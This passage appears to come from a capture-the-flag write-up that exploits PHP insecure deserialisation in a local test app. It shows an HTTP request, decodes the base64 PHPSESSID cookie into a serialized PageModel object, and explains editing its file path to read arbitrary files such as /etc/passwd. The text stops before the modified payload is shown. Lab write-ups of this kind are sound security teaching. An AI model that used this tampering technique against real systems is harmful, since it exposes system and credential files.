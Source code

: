 > Our local instance of the application listens on `localhost` on port `1337`
{: .prompt-info }

---

# exploiting the vulnerability
## manual exploitation
Lets start by accessing the local test application.
```http
GET / HTTP/1.1
Host: 127.0.0.1:1337
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9
Connection: close

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 21 Sep 2023 09:27:16 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.26
Content-Length: 7665

<html>
...
```

From the source code of the application we know that the cookie `PHPSESSID` gets unserialised, so lets decode the value.
```bash
$ echo "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9" | base64 -d
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

To exploit it, we just need to change `/www/index.html` to the file we desire and update the length variable (`s:15`).
  
Lets try to read `/etc/passwd` as a proof of concept.  
  